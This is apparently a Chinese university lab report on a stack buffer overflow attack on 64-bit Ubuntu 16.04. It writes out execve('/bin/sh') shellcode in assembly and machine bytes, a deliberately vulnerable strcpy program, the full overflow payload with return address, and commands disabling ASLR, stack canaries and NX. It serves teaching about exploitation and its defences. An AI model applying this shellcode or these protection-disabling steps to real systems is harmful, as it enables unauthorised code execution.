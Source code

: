 # 操作系统安全实验一

----



## 实验目的

* 理解掌握`C` 栈帧结构
* `Shellcode` 构造
* 加深理解栈溢出攻击原理及防护措施

## 实验要求

* 在关闭安全机制下,在Linux系统平台上实现缓冲区溢出攻击
* 开启安全保护机制,运行一样的溢出攻击代码,比较实现现象

## 实验展示

1. 实验原理

​      `C` 栈帧结构如下：

![区_02](assets/选区_025.png)

​         因此当当前帧的局部变量和临时变量超出区域，覆盖了`ebp` 和返回地址时，就实现了栈溢出攻击。再通过精心设计返回地址，使其为`Shellcode` 的起始地址，就完成了运行流的劫持。

2. 实验平台

​      实验基于 64位 `Ubuntu \ 16.04` 操作系统版本以及 `gcc,gdb` 版本信息如下：

```txt
Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```

3. `Shellcode`  代码

​       `Shellcode` 是一段攻击者精心设计的恶意代码，通常要求与位置无关，且本实验中利用 `strcpy()` 函数，因此`Shellcode`  代码中不能出现  `\x00` ，会被当作`\0`从而结束拷贝。

​       编写`Shellcode` ，该`shellcode` 调用`execve("/bin/sh",NULL)` ，启动一个新的`shell`，验证其功能，参考: https://www.exploit-db.com/exploits/36858/ ，编写汇编文件如下：

```asm
.global _start
_start:
    # char *const argv[]
    xorl %esi, %esi
 
    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq `0x68732f2f6e69622f, %rbx
 
    # for '\x00'
    pushq %rsi
    pushq %rbx
    pushq %rsp
    
    # const char *filename
    popq %rdi
 
    # __NR_execve 59
    pushq `59
    popq %rax
 
    # char *const envp[]
    xorl %edx, %edx
    syscall
```

![区_02](assets/选区_028.png)

   提取机器码：

![区_02](assets/选区_029.png)

4. 漏洞代码

```c
#include <stdio.h>
#include <string.h>
void overflow(char* str){
    char buf[30];
    strcpy(buf, str);
}
int main(){
    char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
                  "\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
    overflow(str);
    return 0;
}
```

​       上面这段程序栈溢出漏洞触发点在`strcpy`函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址。因此在`gdb`调试时确定`shellcode`的地址即`str`复制后`buf`的首地址，让返回地址指向该地址。

5. 实验结果

​     实验前为了更简单的方式实现栈溢出，需要关闭一些保护措施。

- `ASLR` (地址空间布局随机化)

  关闭`ASLR`：`echo 0 |sudo tee /proc/sys/kernel/randomize_va_space`

- `Cannary`

  开启`Canary`之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 `_stackchk_fail`函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

- `NX`
  开启`NX`保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。    

编译调试：

![区_03](assets/选区_031.png)

​       从调试结果可知，`buf` 的首地址为 `0x7fffffffdaa0` ，且查看内存该地址处确实为 `Shellcode` 起始代码。为了覆盖到返回地址，即填充字节至且包括8字节`rbp` (`0x7fffffffdac0`) ，则除了`shellcode`外还需要填充17字节。另外返回地址为`0x7fffffffdaa0`,改为小端模式`\xa0\xda\xff\xff\xff\x7f`。因此：

```c
char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
              "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
              "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"
              "\xa0\xda\xff\xff\xff\x7f\x00\x00";
```

​     重新编译，gdb调试运行：

![区_03](assets/选区_032.png)

 成功运行。然而实际运行却是段错误，原因是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，因此只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

获取`shellcode` 实际地址，可以打印出`buf` 地址，也可以利用内核转储获取真实地址。首先启用内核转储 `ulimit -c unlimited`  ，缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。

![区_03](assets/选区_033.png)

因此修改`str` 尾部为`\x10\xdb\xff\xff\xff\x7f\x00\x00`。重新编译运行：

![区_03](assets/选区_034.png)

若启用保护措施，正常编译：

![区_03](assets/选区_035.png)

